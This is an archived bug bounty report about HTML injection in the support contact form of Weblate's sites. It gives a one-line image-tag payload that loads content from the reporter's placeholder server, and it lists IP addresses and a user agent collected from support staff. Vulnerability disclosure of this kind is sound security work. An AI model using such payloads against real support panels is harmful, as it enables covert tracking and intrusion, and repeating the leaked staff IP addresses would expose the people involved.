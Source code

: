 # HTML injection and information disclosure in support panel

## Report Details
- **Report ID**: 634312
- **URL**: https://hackerone.com/reports/634312
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-07-03T08:15:19.173Z
- **Disclosed**: 2019-07-09T13:43:59.828Z

## Reporter
- **Username**: xaleraf4ra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
Hello Weblate Team!

I found HTML injection and information disclosure in support panel

###Description
There is a form to ```weblate.org``` and ```hosted.weblate.org``` to send to support
I poisoned the request, where I inserted such payload in all fields:
```
"><img src="[SERVER]">
```

After that, when my payload got into the support panel, it was reproduced and the picture was uploaded, after that requests were sent to my server

#####So HTML injection is there
Further, having examined in detail the requests that came to me on the server, I saw (private) ip addresses of administrators or employees (support panel)

###### IP Adresses
```
37.9.65.65
89.187.189.240
95.108.197.9
178.154.167.78
```

###### User Agent
```
User-Agent: Mozilla/5.0 (iPad; CPU OS 12_3_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Canary
```

## Impact

The vulnerability allows you to execute HTML code in the support panel, also steal personal data of administrators, employees, for example: IP Addresses, which browsers employees use, and so on.


Best regards Bogdan

## Attachments
- _________________2019-07-03_11-14-51.png
- _________________2019-07-03_11-14-59.png
